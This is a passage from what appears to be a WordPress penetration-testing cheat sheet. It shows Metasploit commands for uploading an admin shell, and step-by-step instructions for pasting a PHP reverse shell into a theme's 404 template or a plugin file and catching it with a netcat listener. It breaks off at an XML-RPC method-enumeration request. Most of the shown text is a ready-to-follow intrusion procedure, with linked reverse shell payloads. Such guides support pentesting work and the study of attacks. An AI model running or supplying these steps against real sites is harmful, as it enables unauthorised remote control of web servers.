 To achieve reverse shell, we need the admin credential.

### Metasploit

```bash
msfconsole
msf> use exploit/unix/webapp/wp_admin_shell_upload
msf> set RHOSTS <target-ip>
msf> set LHOST <local-ip>
msf> set USERNAME admin
msf> set PASSWORD admin
msf> check
msf> run
meterpreter> shell
```

### PHP Reverse Shell Injection

- **Themes**

    1. Access to dashboard (**/wp-admin/**).
    2. Move to **"Appearance"** and select theme e.g. "Twenty Seventeen".
    3. Click **"Theme Editor"** or **"Editor"** in the **"Appearance"** section.
    4. In the theme editor, click **"404 Template (404.php)"** on the right.
    5. Copy and paste the script for Reverse Shell [here](https://github.com/pentestmonkey/php-reverse-shell). For Windows, [this payload](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) is available.
    6. Edit **"$ip"** and **"$port"** to assign local machine ip and port in the script.
    7. In your terminal, start netcat listener for getting the incoming connection from the website.

        ```sh
        nc -lvnp <local-port>
        ```

    8. Access "https://vulnerable.com/wp-content/themes/twentyseventeen/404.php". We should get the target shell in the netcat listener.

- **Plugins**

    1. Go to Plugins → Plugin Editor
    2. Insert the PHP reverse shell code into the file (e.g. plugin_name.php) and update $ip and $port.
    3. Start netcat listener “nc -lvnp 4444” in terminal.
    4. Then access to https://example.com/wp-content/plugins/\<plugin>/\<plugin>.php
    5. We should get a shell.

<br />

## XML-RPC (xmlrpc.php)

- **Get All Methods**

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...
